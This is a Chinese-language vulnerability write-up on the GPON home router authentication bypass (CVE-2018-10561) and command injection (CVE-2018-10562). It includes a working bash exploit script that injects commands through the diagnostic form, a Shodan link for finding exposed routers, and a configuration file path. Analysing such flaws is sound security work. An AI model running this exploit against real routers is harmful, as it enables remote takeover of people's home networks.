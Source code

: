 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [delikely.github.io](https://delikely.github.io/2018/05/03/GPON%E5%85%89%E7%BA%A4%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%EF%BC%9A%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-10561%EF%BC%89%E5%92%8C%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-10562%EF%BC%89/)

> GPON 技术是现在非常流行的光纤无光源网络设备技术，国内主流运营商的家庭网关大多都采用 GPON 和 EPON 技术。

GPON 技术是现在非常流行的光纤无光源网络设备技术，国内主流运营商的家庭网关大多都采用 GPON 和 EPON 技术。国内 GPON 光纤路由器因为由 ISP 提供，暴露公网存量不明显，但仍可能收到该漏洞影响。此次由 VPNMentor 披露的 GPON 家用光纤路由器漏洞，分别涉及到身份认证绕过漏洞 (CVE-2018-10561) 和命令注入漏洞（CVE-2018-10562），两个漏洞形成的攻击链可以在设备上执行任意系统命令。

**GPON 模式家庭设备网关**

![](https://delikely.github.io/2018/05/03/GPON%E5%85%89%E7%BA%A4%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%EF%BC%9A%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-10561%EF%BC%89%E5%92%8C%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-10562%EF%BC%89/1525415567679.png)

[](#身份认证绕过（CVE-2018-10561） "身份认证绕过（CVE-2018-10561）")身份认证绕过（CVE-2018-10561）
--------------------------------------------------------------------------

设备上运行的 HTTP 服务器在进行身份验证时会检查特定路径，攻击者可以利用这一特性绕过任意终端上的身份验证。

通过在 URL 后添加特定参数`?images/`，最终获得访问权限：

> [http://ip:port/menu.html?images/](http://ip:port/menu.html?images/)
> 
> [http://ip:port/GponForm/diag_FORM?images/](http://ip:port/GponForm/diag_FORM?images/)

另外，URL 中含有 style/,script/ 时也可绕过验证。

[](#命令注入（CVE-2018-10562） "命令注入（CVE-2018-10562）")命令注入（CVE-2018-10562）
--------------------------------------------------------------------

该设备提供了诊断功能，通过`ping`和`traceroute`对设备进行诊断，但并未对用户输入进行检测，直接通过拼接参数的形式进行执行导致了命令注入，通过反引号 ` 和分号; 可以进行常规命令注入执行。

该诊断功能会在`/tmp`目录保存命令执行结果并在用户访问`/diag.html`时返回结果，所以结合 CVE-2018-10561 身份认证绕过漏洞可以轻松获取执行结果。

### [](#Exploit "Exploit")Exploit

```
#!/bin/bash
# Usage: sh exp.sh url command
curl -k -d "XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=\`$2\`;$2&ipv=0" $1/GponForm/diag_Form?images/ 2>/dev/null 1>/dev/null
echo "[+] Waiting...."
sleep 3
echo "[+] Retrieving the ouput...."
curl -k $1/diag.html?images/ 2>/dev/null | grep 'diag_result = ' | sed -e 's/\\n/\n/g'
```

[](#漏洞利用-amp-疑问 "漏洞利用&疑问")漏洞利用 & 疑问
-----------------------------------

### [](#404-not-found-？ "404 not found ？")404 not found ？

URL 后面添加了`?images/`使用浏览器访问大多会报 **404 Not found.** 。

![](https://delikely.github.io/2018/05/03/GPON%E5%85%89%E7%BA%A4%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%EF%BC%9A%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-10561%EF%BC%89%E5%92%8C%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-10562%EF%BC%89/1525418932723.png)

查看源码发现是函数 XWebInit 中判断了当前窗口是否为最顶层的框架。Web 管理页面由多个 html 页面组合而成，单独显示是被不允许的。我尝试用 burp 修改返回包，但显示仍然不完全。需要修改查看相关配置，建议直接对配置文件操作或执行相关命令。

```
function XWebInit()
{
	if (self == top)
	{
		$("x_root_body").innerHTML = '<center><h2><p>404 Not found.</p></h2></center>';
		return;
	}
	WebLoadString();
	WebInit();
	setTimeout("XLogout();", top.XWebTimeout*1000);
	InitForm(top.XCurrentMenu);
}


</script>
</head>
<body onload="XWebInit();">
<form >
<input  />
<div>
	<div></div>
	<div>
```

### [](#关键文件 "关键文件")关键文件

*   web 路径: /web/html
*   身份认证等配置：/etc/ath0.conf

[](#时间线 "时间线")时间线
-----------------

*   2018-05-01 vpnmentor 披露该漏洞

[](#参考 "参考")参考
--------------

*   [Critical RCE Vulnerability Found in Over a Million GPON Home Routers](https://www.vpnmentor.com/blog/critical-vulnerability-gpon-router/)
*   [GPON Home Gateway 远程命令执行漏洞分析](https://paper.seebug.org/593/)
*   [CVE-2018-10561/62: GPON 光纤路由器漏洞分析预警](https://cert.360.cn/warning/detail?id=95110cde8635056292e62424b9da1842)
*   [shodan 搜索结果](https://www.shodan.io/search?query=title%3A%22GPON+home+gateway%22)